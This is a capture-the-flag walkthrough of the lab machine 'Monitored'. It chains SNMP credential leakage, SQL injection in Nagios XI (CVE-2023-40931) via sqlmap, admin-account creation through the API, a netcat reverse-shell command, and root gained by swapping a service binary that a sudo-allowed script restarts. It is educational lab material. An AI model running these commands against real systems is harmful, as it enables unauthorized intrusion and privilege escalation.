## Enumeration

I started out with a classic <kbd>`nmap`</kbd> scan:

```bash
mkdir nmap
sudo nmap -sC -sV 10.10.11.248 -oA nmap/monitored
```


We can see nothing special, we have SSH, web server and
[LDAP](https://en.wikipedia.org/wiki/Lightweight_Directory_Access_Protocol) running.

### LDAP

Let's start with this. To enumerate the `LDAP` port we can use <kbd>`nmap`</kbd> :
```bash
nmap -n -p 389 -sV --script "ldap* and not brute" 10.10.11.248
``` 


I played with <kbd>`ldapsearch`</kbd> but found nothing.

### Website 

I checked out the site and was redirected to `nagios.monitored.htb`.  

So just add it to `/etc/hosts` and it works. I saw it's using `NagiosXI`.
I  couldn't find the version but it looked recent. 
I searched for any recent public vulnerabilities and found nothing that could be used 
as we are still unauthenticated. I ran some more enumeration while looking around:

```bash
gobuster dir -u https://monitored.htb/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -k
```


<kbd>`gobuster`</kbd> finds the `/nagios` endpoint which is prompting for `HTTP Authentication`.
So I searched for some default credentials and found a few:

`root:nagiosxi` can be used for the database and ssh.

`nagiosadmin:nagiosadmin` is also used as a default for Nagios. 

So the next logical steps is to try these on `/nagios` endpoint with <kbd>`hydra`</kbd> :

```bash
hydra -L users.txt -P passwords.txt nagios.monitored.htb https-get "/nagios"
```

The users were created from default users plus `admin` and a few others standard ones.
I used the most common 1000 passwords for the password word list plus the default credentials.
I didn't get a match. No easy wins unfortunately. Oh well...

Then I tried the `/nagiosxi` directory and to my surprise it exists.

So I just continued with the <kbd>`gobuster`</kbd> searches using different website endpoint directories and different word lists.






So after scanning `https://nagios.monitored.htb/nagiosxi/` endpoint for directories we can see some directories require that we are authenticated  

But there is this this interesting directory `/terminal`. 
After visiting it we see it's running `ShellInABox`. 


Its version is 2.20. I searched for any known vulnerabilities and found none.
I was a bit stuck so I backtracked a bit and tried a few other things. 

## More enumeration 

It did a <kbd>`nmap`</kbd> UPD scan with 
```bash
sudo nmap -sU 10.10.11.248
```
While that was running I searched for a way to discover the `NagiosXI` version
and also tried some hand fuzzing of and `HTTP GET` parameters and such.
When the scan returned I found something interesting.


For the `open|filtered` ports <kbd>`nmap`</kbd> can't detect wether they are open or close.  

We have [NTP](https://en.wikipedia.org/wiki/Network_Time_Protocol) on port 123 which can't really be used.  
We have [SNMP](https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol) which could lead to something interesting. 

### SNMP

So I ran 

```bash
sudo nmap -sU -sC -sV -p 161 10.10.11.248
```


**Note:** We have to use `sudo` because doing UDP scans required admin rights.


to enumerate it even further. We get the following:




Here we have a bun of processes and some basic info.


Here we can see the services listening and the open ports. 
So I proceed to scan the port 162 with the same <kbd>`nmap`</kbd> parameters: 

```bash
sudo nmap -sU -sV -sC -p 162 10.10.11.248
```



Nothing interesting here. 
So after that I proceeded to try to [brute force the community string](https://book.hacktricks.wiki/en/generic-hacking/brute-force.html#snmp)
as we can see from the above output of the first `nmap` scan that `SNMPv3 Server` is being used. I used <kbd>`hydra`</kbd> :

```bash
hydra -P /opt/SecLists/Discovery/SNMP/common-snmp-community-strings.txt monitored.htb snmp
```


I found the default one being used immediately. 

After that I ran <kbd>`snmpwalk`</kbd> and <kbd>`snmpbulkwalk`</kbd> (they produce similar results) to enumerate the [MIB](https://en.wikipedia.org/wiki/Management_information_base):

```bash
snmpwalk -v2c -c public 10.10.11.248 > snmpwalk-result
```

```bash
snmpbulkwalk -c public -v2c 10.10.11.248 . > snmpbulkwalk-result
```

After searching through it I found that it leaks processes.
In the processes I found something that could probably be credentials: 
<kbd>`svc:XjH7VCehowpR1xZB`</kbd>



I also found some userIds being used by `LDAP` and `snmpd` but they were standard.

I tried the credentials on all the `NagiosXI` login page, on the `ShellInABox` terminal,
on `SSH` and finally got a hit on the `/nagios` endpoint with HTTP basic authentication.

## Entering Nagios

Nagios is a event monitoring system providing alerts for services, servers,
applications, etc. 

First I checked to see what version is running and I found `Version 4.4.13 in Nagios XI`.
I didn't find anything useful related to this version. 
I also didn't find anything useful on the `Nagios Core` website.
Maybe some possible usernames which I couldn't determine 
if they were created by other players or the site. 

So I decided to backtrack and review if I missed anything.
As I couldn't authenticate to any other part of the website 
I searched for a way to use the credentials.
I went back to my new <kbd>`gobuster`</kbd> scans which I ran and found the `/api` endpoint.


I found this `v1` endpoint. I enumerated it even further.
This time I had to exclude all the results by length as they were 
all returning 200 success response, they were also saying that no API key is provided 
so we might need that to use this API.  
I added `--exclude-length=32` and found this.


After visiting this endpoint I found this.


It seems we have to send a `POST` request to authenticate.



So we can use a username and password to authenticate. I tried the earlier credentials and got this in the response:



We can see we have an `auth_token`, after I searched how I could use this token,
I found the documentation [here](https://www.nagios.org/ncpa/help/2.2/api.html).
We can see we just have to add `?token=token-value` to use it.  
I tried it on `/nagiosxi/index.php` and we're in.



On the bottom left I highlighted the `Nagios XI` version which is `5.11.0`. 
After a quick search we can see there a couple of vulnerabilities for this version as described [here](https://outpost24.com/blog/nagios-xi-vulnerabilities/).
The `SQLi` were the most interesting so I tried to exploit those.
But we can't access the `/admin` endpoint as we're not authorized to do so.  

Or so I thought. How happy I was when proven wrong. 
<br>
I tried to visit the `/nagiosxi/admin/banner_message-ajaxhelper.php` endpoint which is the one abused in the `CVE-2023-40931`.  

I got a `200 success` response code and no error message saying I needed to be authenticated.

### Exploiting CVE-2023-40931

So I decided to put `sqlmap` up to the task of exploiting this CVE. So let's craft the command.

```bash
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=72jvrn22p6lo6n1e5e88tdsm44" -p id
```

So as we can see we have to specify the data that's being sent, which is mentioned in the site where I found the description of the CVE, we also have to use the cookie that we got from the authentication to `index.php` with the `token` value.  

After that I we find that `id` is indeed injectable.  

So we can append `-D nagiosxi -T xi_users --dump` to the above `sqlmap` command.  

_(I figured the database name would be `nagiosxi` and the table we get from the CVE description, we could also install `Nagios XI` to find what are is the default name for the database)._  

We get this:


Here we have the `admin` password hash and the API key.
I tried cracking the hash with  
<kbd>`hashcat`</kbd> but I couldn't. The API key on the other hand could be useful.

### Exploiting the API

So after checking the documentation I found we can navigate to  
`Help > API Docs > Introduction` in the NagiosXI page.
There we can see how to use the API key. 
Then I went and downloaded the NagiosXI and use [this](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf) documentation to install it locally and searched for the System reference under the same `Help > API Docs` which was unavailable to me on the `nagios.monitored.htb` host because I'm not admin. 


Here we see how we can add a new user. So I added it:

```bash
curl -XPOST "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -d "username=azb&password=azbestus&name=Azbest&email=azb@monitored.htb&auth_level=admin" -k
```

So now we're logged in as admin. Finally!  

I searched around the website for some time also reading some documentation and forums about how I could run commands which I saw was possible from the `NagiosCore` I found earlier and from the API docs. 
So I found the ability to add commands under `Configure > Advanced Configuration > Core Config Manager > Commands`.


So here I added a new command that spawned a reverse shell with 
```
nc -e /bin/bash my-ip my port
```
I first tried with a bash reverse shell but it didn't work...  
Then I went under `Monitoring > Services` (under the same Core Config Manager) and found services that can run commands.




So then I ran the command and got a reverse shell. After all this pain and
RTFM moments we are finally on the box.

## Privilege escalation

So like always I first uploaded `linpeas.sh` and ran it.
Then I checked `sudo -l` to find if we can use `sudo` anywhere. We find we can:



We see we can run quite a few things. We can restart services and do all kinds of stuff. So I proceeded to check out the `linpeas` output. I found this which was very interesting:



As we can see we can write to the `/usr/local/nagios/bin/` files which could be then restarted by the above commands that don't require `sudo` password.  
I tried it with `npcd`. I deleted the binary and added a simple reverse shell script:


After that I made it an executable with <kbd>`chmod`</kbd> **(very important, I forgot this at first and didn't get the reverse shell!!!).**

Then I tried to restart the service with `sudo /etc/init.d/npcd restart`. But this command doesn't exist!?  

What now?

I was stuck here a bit as this was very weird. Also I couldn't write to `/etc/init.d` so I couldn't create a new `npcd` service file...  

But if we look at the `sudo -l` output again we can see we have this command that we can run:

``` bash
(root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *

# so then we just run it, I know brilliant
sudo /usr/local/nagiosxi/scripts/manage_services.sh *
```



This shows use we can restart `npcd`!  

**Bingo!**
I just restarted it and got the reverse shell. **`Pwned!`**


